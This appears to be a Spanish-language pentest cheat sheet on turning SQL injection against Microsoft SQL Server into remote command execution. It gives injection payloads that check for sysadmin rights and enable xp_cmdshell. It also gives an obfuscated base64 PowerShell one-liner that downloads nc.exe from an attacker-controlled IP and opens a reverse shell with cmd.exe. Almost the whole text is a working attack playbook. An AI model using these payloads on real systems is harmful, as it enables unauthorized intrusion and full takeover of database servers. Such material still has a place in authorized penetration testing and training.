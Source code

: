 ### INFO
En primera instancia deberemos cerciorarnos de que nuestro user es SA(sysadmin).

    <dato>' AND IS_SRVROLEMEMBER('sysadmin')=1;--

Si la respuesta nos da true, podemos intentar conseguir una shell reversa abusando de xp_cmdshell.

1. Primero habilitamos las advanced options, esta respuesta deberia darnos false sin el dato, true con el dato.

        ';exec sp_configure 'show advanced options','1';reconfigure;--

2. Habilitamos el xp_cmdshell, debería darnos false sin el dato, true con el dato:

        ';exec sp_configure 'xp_cmdshell','1';reconfigure;--

3. Podriamos probar que todo esté funcional y haya conexión enviandonos un ping corriendo previamente tcpdump:

        sudo tcpdump -i <interfaz>

Luego enviamos el ping:

        ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

4. Si esto funciona, podriamos enviarnos una shell reversa

        ';exec xp_cmdshell '<shell reversa>'.


Podemos usar revshell para generar reverseshells de manera sencilla:

    https://www.revshells.com/
#### En el caso de que la reverse no funcione:

Deberemos subir un netcat u otro binario util para realizar conexiones al servidor

1. Generamos el payload para que se descargue nuestro binario de manera ofuscada
   
        python3 -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'

2. pasamos como comando en la inyección:

       exec xp_cmdshell 'powershell -exec bypass -enc <payload>'
